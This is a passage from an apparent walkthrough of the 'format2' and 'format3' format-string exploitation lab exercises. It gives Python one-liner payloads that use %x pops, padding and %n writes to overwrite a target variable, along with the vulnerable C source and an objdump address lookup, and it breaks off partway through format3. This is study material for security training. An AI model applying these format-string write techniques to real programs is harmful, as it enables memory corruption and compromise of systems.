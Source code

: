     ```bash
    python -c "print '\xe4\x96\x04\x08' + '%x%x%x' + '%n'" > /tmp/format2.in
    ./format2 < /tmp/format2.in
    ```

4. This time we should see that a new value has been written to our target: the target has the value 23. Now it's just a matter to convince the system to print more bytes without popping more stuff from the stack.
5. To do that we make one of our '%x' pad its popped value with the amount of bytes we are missing. It might be necessary to try different values until we find the correct amount of padding (remember that target is a hex value).

    ```bash
    python -c "print '\xe4\x96\x04\x08' + '%44x%x%x' + '%n'" > /tmp/format2.in
    ./format2 < /tmp/format2.in
    ```
    
6. As soon as we get the correct amount of bytes printed out, target will be modified to contain the value 64 and allowing us to finish the challenge.


### [Format 03]
Control what data is being written to the process memory.

```c
int target;

void printbuffer(char *string){
    printf(string);
}

void vuln()
{
    char buffer[512];

    fgets(buffer, sizeof(buffer), stdin);

    printbuffer(buffer);
    
    if(target == 0x01025544) {
        printf("you have modified the target :)\n");
    } else {
        printf("target is %08x :(\n", target);
    }
}

int main(int argc, char **argv){
    vuln();
}
```

1. Once again, we build on the previous challenge: we have to write a specific value, and this time we can't do it on a single write but need to split it on multiple %x-%n runs. We start using `objdump -t format3 | grep target` to find out that target is at address 0x080496f4
2. Next step, spamming format3 to find out how many pops we have to do to get the target address at the right place at the top of the stack:
    ```bash
    python -c "print 'AAAA' + '%x'*20" > /tmp/format3.in
    ./format3 < /tmp/format3.in
    ```
